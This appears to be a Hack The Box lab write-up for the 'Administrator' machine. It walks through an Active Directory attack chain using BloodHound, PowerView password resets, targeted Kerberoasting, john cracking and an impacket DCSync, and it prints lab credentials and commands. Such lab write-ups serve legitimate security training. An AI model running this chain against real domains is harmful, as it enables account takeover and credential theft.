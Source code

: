 # Administrator 

![](./Images/image.png)

## Introduction

**Administrator** is an Active Directory-focused machine that highlights the importance of information gathering and analyzing relationships between domain users. It presents a logical privilege escalation chain using rights such as `GenericAll`, `ForceChangePassword`, `GenericWrite`, and `DCSync`.

The goal is to move laterally through user trust relationships to reach high-privileged access, leveraging tools like BloodHound, crackmapexec, WinRM, SMB, and pwsafe.

It’s a great lab for anyone looking to transition from theory to practice in Active Directory exploitation and understand how visibility into domain permissions can unlock powerful attack paths.

**Machine Information**

```
Username: Olivia 
Password: ichliebedich
```

## Enumeration

Nmap scan

![](./Images/image-1.png)

DNS Recon

![](./Images/image-2.png)


Collect data with bloodhound

```sh
bloodhound-python -c All -u Olivia -p 'ichliebedich' -dc administrator.htb -ns 10.10.11.42
```

![](./Images/image-3.png)


Check valid users on AD with `kerbrute`

```sh
cat 20250411113120_users.json | jq | grep samaccountname | awk '{print $2}' | cut -d '"' -f 2 > users.txt
```

![](./Images/image-4.png)

# Footprinting

**Bloodhound GUI - Enumeration**

![](./Images/image-5.png)

- `olivia@administrator.htb` → `GenericAll` on `michael@administrator.htb`

We can Force Change Password of `michael@administrator.htb`

```sh
. .\powerview.ps1
$UserPassword = ConvertTo-SecureString 'michaelPassword' -AsPlainText -Force
Set-DomainUserPassword -Identity 'michael' -AccountPassword $UserPassword -Credential $Cred
```

## Initial Foothold

![](./Images/image-6.png)

![](./Images/image-7.png)

- `michael@administrator.htb` → `ForceChangePassword` on `benjamin@administrator.htb`

```sh
. .\powerview.ps1
$UserPassword = ConvertTo-SecureString 'benjaminPassword' -AsPlainText -Force
Set-DomainUserPassword -Identity 'benjamin' -AccountPassword $UserPassword -Credential $Cred
```

![](./Images/image-8.png)

![](./Images/image-13.png)

- `benjamin@administrator.htb` → No special privileges, but had FTP access

```sh
┌──(kali㉿dipeua-pc)-[~/HackTheBox/Administrator/ftp]
└─$ ftp ftp://benjamin:benjaminPassword@administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
331 Password required
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> ls
229 Entering Extended Passive Mode (|||62626|)
150 Opening ASCII mode data connection.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||62627|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************************************|   952        5.79 KiB/s    00:00 ETA
226 Transfer complete.
952 bytes received in 00:00 (5.77 KiB/s)
ftp> exit
221 Goodbye.
```

![](./Images/image-10.png)

![](./Images/image-11.png)


```
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

![](./Images/image-14.png)

- `emily@administrator.htb` → `GenericWrite` on `ethan@administrator.htb`

```sh
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('administrator.htb\emily', $SecPassword)
Set-DomainObject -Credential $Cred -Identity 'ethan' -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
Get-DomainSPNTicket -Credential $Cred -SPN 'nonexistent/BLAHBLAH'
```

![](./Images/image-12.png)

![](./Images/image-15.png)

```sh
┌──(kali㉿dipeua-pc)-[~/HackTheBox/Administrator]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
limpbizkit       (?)     
1g 0:00:00:00 DONE (2025-04-13 09:52) 33.33g/s 170666p/s 170666c/s 170666C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Privilege Escalation

```sh
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42
```

![](./Images/image-16.png)

**Pass The Hash**

![](./Images/image-17.png)